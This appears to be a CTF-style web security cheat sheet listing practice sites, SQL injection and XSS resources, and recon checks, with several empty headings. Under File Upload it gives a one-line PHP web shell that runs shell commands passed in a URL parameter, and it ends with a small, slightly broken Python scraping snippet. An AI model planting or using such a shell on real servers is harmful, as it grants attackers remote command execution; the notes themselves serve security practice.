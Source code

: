 ## ► web

★ Best resources for web:
- https://portswigger.net/
- https://cheatsheetseries.owasp.org/

### Initial checks
- robots.txt
- git dumpster
- directory bruteforce

### Time wasters
- https://overthewire.org/wargames/natas/
- http://www.itsecgames.com/
- https://ctf.hacker101.com/
- https://www.hackthissite.org/
- http://www.dvwa.co.uk/

### SQL Injection
- https://github.com/Audi-1/sqli-labs/
- https://portswigger.net/web-security/sql-injection/cheat-sheet

### XSS
- http://xss-game.appspot.com/
- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
### XXE
### Path Traversal
### PHP deserealization
### File Upload


#### Basic PHP shell

``` <?php echo system($_GET['c']); ?> ```

### Local File Inclusion

### Scraping things from web-pages

```
import requests
import re

url = "http://127.0.0.1"
s = requests.Session()

data = {"querybyte":"A","auth":69}
r = s.post(url,data)

gold = re.findall("Auth code: (\.\*)", r)[0]
print gold

```
